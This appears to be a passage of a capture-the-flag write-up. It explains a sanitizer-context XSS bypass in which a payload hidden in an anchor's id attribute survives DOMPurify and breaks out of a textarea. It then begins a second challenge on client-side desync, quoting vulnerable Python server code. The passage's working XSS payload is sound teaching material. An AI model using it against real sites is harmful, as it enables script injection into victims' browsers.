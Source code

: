 How we can achieve XSS is quite simple. Essentially the sanitization that occurs server side has no context on what will be the context where our payload will be reflected. 

By leveraging this assumption we can carefully create an HTML tag that when injected into the browser breaks the context but will be completely ignored by DOMPurify. How? By using <mark style="background: #FFB86CA6;">attributes</mark> 

```html
<a id='</textarea><img src=a onerror=alert(origin)>'/>
```

The content of the `id` attribute will be completely ignored by DOMPurify, but when injected into the page it will break the `textarea` tag, leaving our malicious tag untouched. Hence, an alert will pop up

```html
<div class="card">
	<h1>Paper Airplane</h1>
    <p class="message"><a id="</textarea><img src=a onerror=alert(origin)>"></a></p>
    <form method="get" action="">
        <textarea name="message">&lt;a id="</textarea><img src="a" onerror="alert(origin)">"&gt;
        <p>
            <input type="submit" value="View 👀" formaction="/">
        </p>
    </form>
</div>
```

## Client-Side Desync by RyotaK - w/ smaury92

The challenge is not straightforward. It mimics an html editor, with a couple of twists. 
We can inject arbitrary html code on the editor, this will be saved server-side by giving it an UUIDv4 which later will be used to retrieve it. Sounds quite simple right? The problem is that when retrieved our HTML code will be converted using `html.escape` which uses <mark style="background: #FFB86CA6;">HTML entities</mark> to nullify our payload. 
This will be later injected into the page, but not before having sanitized it with a <mark style="background: #FFB86CA6;">custom sanitizer</mark>.

This sounds unexploitable right? Well, in a standard use flow this is unbreakable, but by analyzing carefully the source code there is one thing that stands out. 

```python
def do_GET(self):
    parsed_path = urlparse.urlparse(self.path)
    path = parsed_path.path
    query = urlparse.parse_qs(parsed_path.query)
    if path == "/":
        self.send_response(200)
        self.send_header('Cache-Control', 'max-age=3600')
        self.send_data(self.content_type_html, bytes(index_html, 'utf-8'))
    elif path == "/api/drafts":
        draft_id = query.get('id', [''])[0]
        if draft_id in drafts:
            escaped = html.escape(drafts[draft_id])
            self.send_response(200)
            self.send_data(self.content_type_text, bytes(escaped, 'utf-8'))
        else:
            self.send_response(200)
            self.send_data(self.content_type_text, b'')
    else:
        self.send_response(404)
	    self.send_data(self.content_type_text, bytes('Path %s not found' % self.path, 'utf-8'))
```
